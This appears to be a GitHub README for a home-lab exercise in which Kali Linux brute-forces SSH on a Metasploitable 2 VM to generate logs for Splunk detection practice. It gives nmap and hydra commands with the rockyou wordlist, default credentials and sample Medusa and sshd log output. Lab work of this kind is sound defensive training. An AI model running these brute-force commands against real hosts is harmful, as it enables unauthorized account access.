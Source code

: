 # 🔓 SSH Brute-Force Attack Scenario

This scenario simulates a brute-force SSH attack from Kali Linux against a vulnerable Metasploitable 2 target. It's used to generate logs, test Splunk detection, and understand attack behavior.

## 🎯 Target
- IP: `192.168.x.x` (Metasploitable VM)
- Service: OpenSSH
- Port: 22
- Default creds: `msfadmin:msfadmin`

## 🛠️ Tools Used
- `hydra`
- `nmap`
- `wireshark` or `tcpdump` (optional)

## 🔍 Steps
1. Confirm SSH is open:
   ```bash
   nmap -p 22 192.168.x.x
   ```

2. Launch brute-force attack with Hydra:
   ```bash
   hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.x.x
   ```

3. Monitor logs or traffic with:
   ```bash
   wireshark
   ```

## 📝 Notes
- Successful brute-force attempt should be visible in:
  - Splunk SSH logs
  - Wireshark TCP streams
  - Metasploitable's `/var/log/auth.log` (if accessible)

## 🧠 Learning Points
- Observe timing, connection attempts, and delays
- Analyze how brute-force behavior appears in logs
- Use data for detection rules or alerts in Splunk
  
---

## 📸 Brute-Force Output & Logs

### ✅ Medusa Output

```
ACCOUNT CHECK: [ssh] Host: 192.168.68.59 (1 of 1, 0 complete)
Password: kenken (2297 of 14344391 complete)
Password: skyblue (2305 of 14344391 complete)
...
```

*Medusa cycling through passwords from rockyou.txt*

### 🔒 Metasploitable Log Sample

```
sshd[5960]: Failed password for msfadmin from 192.168.68.58 port 38605 ssh2
sshd[5961]: Failed password for msfadmin from 192.168.68.58 port 38612 ssh2
sshd[5962]: Failed password for msfadmin from 192.168.68.58 port 38618 ssh2
```

*Metasploitable showing failed SSH login attempts from Kali*

---

### 🖼️ Screenshot

![Brute-force demo](../medusa-ssh-brute.png)

*A full view of Kali attacking while Metasploitable logs real-time SSH failures*
